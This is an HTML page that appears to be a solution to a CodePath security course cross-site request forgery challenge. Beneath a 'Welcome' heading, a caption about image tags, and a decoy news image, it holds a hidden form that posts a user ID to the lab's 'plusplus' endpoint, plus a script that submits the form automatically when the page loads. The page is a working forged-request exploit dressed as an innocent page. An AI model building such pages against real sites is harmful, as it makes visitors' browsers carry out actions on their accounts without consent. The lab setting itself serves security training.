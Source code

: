 <!DOCTYPE html>
<html>
<body>

<h2>Welcome</h2>
<p>HTML images are defined with the img tag:</p>

<form name="csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
 <input type="hidden" name="userId" value="66a7b8a62f86bddfabb48752aadcb93c845e76f2" />
 <input type="submit"/>
</form>
<script>
 document.csrfForm.submit();
</script>

<img src="https://ichef.bbci.co.uk/news/976/cpsprodpb/12A9B/production/_111434467_gettyimages-1143489763.jpg" alt="https://ichef.bbci.co.uk/news/976/cpsprodpb/12A9B/production/_111434467_gettyimages-1143489763.jpg" width="150" height="100">

</body>
</html>
